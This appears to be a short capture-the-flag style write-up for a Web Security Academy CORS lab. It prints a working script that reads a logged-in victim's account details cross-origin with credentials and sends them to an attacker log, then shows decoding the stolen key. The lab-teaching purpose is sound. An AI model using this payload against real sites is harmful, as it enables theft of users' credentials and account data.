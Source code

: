 1. The following script is delivered to the victim:

```
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='/log?key='+this.responseText;
	};
</script>
```

2. After supposedly executing the script on victims machine his credentials get logged
	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)
3. Decoding victim's credentials via Burp Decoder:
	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
